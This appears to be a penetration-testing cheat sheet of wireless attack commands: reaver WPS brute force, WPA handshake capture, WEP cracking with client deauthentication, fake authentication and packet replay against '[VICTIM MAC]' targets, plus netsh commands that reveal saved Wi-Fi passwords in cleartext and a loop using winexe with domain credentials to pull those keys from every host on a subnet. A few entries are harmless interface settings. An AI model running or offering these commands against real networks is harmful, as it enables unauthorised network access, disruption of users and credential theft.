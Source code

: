 ### 1. try to reave WPS wifi
```
reaver -i mon0 -c <channel> -b <bssid> -vv
```
**- brute,wireless,wifi**
#### References:

http://tools.kali.org/wireless-attacks/reaver
__________
### 2. WIFI enable USB2 before USB3 : helps with passthrough
```
echo 1 > /sys/module/usbcore/parameters/old_scheme_first
```
**- linux,wireless,wifi,configuration**
#### References:

http://forums.fedoraforum.org/archive/index.php/t-30868.html
__________
### 3. WIFI : Scan the range in an orderly manner
```
airodump-ng -f 4000  --cswitch 1 --band abg  wlan0mon --output-format csv -w WifiOverview
```
**- enumeration,wireless,wifi**
#### References:

https://www.aircrack-ng.org/doku.php?id=airodump-ng
__________
### 4. WIFI : Enable monitor mode on interface
```
ifconfig wlan0 down; iwconfig wlan0 mode monitor; ifconfig wlan0 up;
```
**- linux,networking,wireless,wifi**
#### References:

https://www.aircrack-ng.org/doku.php?id=airodump-ng
__________
### 5. Windows Wireless
```
netsh wlan show profile
```
**- networking,passwords,enumeration,Windows,wireless,wifi**
#### References:

http://Microsoft.com
__________
### 6. Windows Wireless
```
netsh wlan show profile name="[SSID]" key=clear
```
**- networking,passwords,Windows,wireless,wifi**
#### References:

https://www.labnol.org/software/find-wi-fi-network-password/28949/
__________
### 7. loop dump wifi keys
```
for host in $(cat localsubnet.txt); do echo "Trying $host"; winexe --user [Domain]/[user]%[pass] //$host "netsh wlan export profile name=[PROFILE] key=clear"; done
```
**- bash,loop,passwords,enumeration,wireless,wifi**
#### References:

https://yg.ht
https://www.labnol.org/software/find-wi-fi-network-password/28949/
__________
### 8. Wireless survey WIFI
```
airmon-ng start wlan1
```
**- linux,wireless,wifi**
#### References:

http://www.aircrack-ng.org/doku.php?id=airmon-ng
__________
### 9. Wireless survey WIFI, useful if airmon start is broke
```
ifconfig wlan0 down; iwconfig wlan0 mode monitor; ifup wlan0
```
**- linux,networking,wireless,wifi**
#### References:

http://www.aircrack-ng.org/doku.php?id=airmon-ng
__________
### 10. WIFI WPA handshake capture
```
airodump-ng -c [Channel #] --bssid [MAC Address] --showack -w [SSID] wlan1mon
```
**- linux,networking,wireless,wifi,packet capture**
#### References:

https://www.aircrack-ng.org/doku.php?id=cracking_wpa
__________
### 11. WIFI WPA handshake prep
```
wpaclean [OUTPUT] [INPUT]
```
**- linux,wireless,wifi,cracking**
#### References:

https://www.aircrack-ng.org/doku.php?id=cracking_wpa
__________
### 12. WIFI WPA handshake prep
```
aircrack-ng [INPUT.cap] -J [OUTPUT]
```
**- linux,wireless,wifi,cracking**
#### References:

https://www.aircrack-ng.org/doku.php?id=cracking_wpa
__________
### 13. wep crack : 1) start capturing IV's
```
airodump-ng -c 11 --bssid [VICTIM MAC] -w [OUTPUT] mon0
```
**- linux,wireless,wifi,cracking**
#### References:

https://www.aircrack-ng.org/doku.php?id=simple_wep_crack
__________
### 14. wep crack 2) De auth clients
```
aireplay-ng -0 0 --ignore-negative-one -e [SSID] -a [AP MAC] -c [VICTIM MAC] mon0
```
**- linux,wireless,wifi,cracking**
#### References:

https://www.aircrack-ng.org/doku.php?id=simple_wep_crack
__________
### 15. wep crack 3) Create a fake auth to the AP
```
aireplay-ng -1 0 -e [VICTIM SSID] -a [VICTIM MAC] -h [OurMac] wlan0
```
**- linux,networking,wireless,wifi,cracking**
#### References:

https://www.aircrack-ng.org/doku.php?id=simple_wep_crack
__________
### 16. wep cracking
```
aireplay-ng -3 -b [VICTIM MAC] -h [OurMac] wlan0
```
**- linux,wireless,wifi,cracking**
#### References:

https://www.aircrack-ng.org/doku.php?id=simple_wep_crack
__________
### 17. wep cracking
```
aircrack-ng -b [VICTIM MAC] [OUTPUT]*cap
```
**- linux,wireless,wifi,cracking**
#### References:

https://www.aircrack-ng.org/doku.php?id=simple_wep_crack
__________
